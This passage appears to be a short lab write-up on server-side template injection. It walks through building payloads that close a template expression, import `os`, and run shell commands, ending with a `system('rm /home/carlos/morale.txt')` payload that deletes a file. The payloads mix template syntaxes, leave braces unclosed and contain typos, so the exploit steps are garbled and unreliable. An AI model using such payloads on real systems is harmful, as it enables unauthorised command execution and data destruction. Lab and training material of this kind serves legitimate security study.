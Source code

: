 we will craft a payload to inject OS command

1- according to the docs

its written in the code as ``{{ user.frist_name }}``

2- So, image to do another python code, we will close the brackets to be `user.first_name}}`

3- start new python code with {% print(’hello world’) %} to be `user.first_name}}{%import+os%}{os.system('ls')}`

4- to remove the file .txt, so the final payload will be `user.first_name}}{%import+os%}{{os.system('rm+/home/carlos/morale.txt')`

<p align="center" width="100%">
  <img src="image2.png" width="800" hight="500"/>
</p>

To Solve the lab, we will change the command to delete file

`<%= system('rm /home/carlos/morale.txt') %>`

<p align="center" width="100%">
  <img src="image3.png" width="800" hight="500"/>
</p>
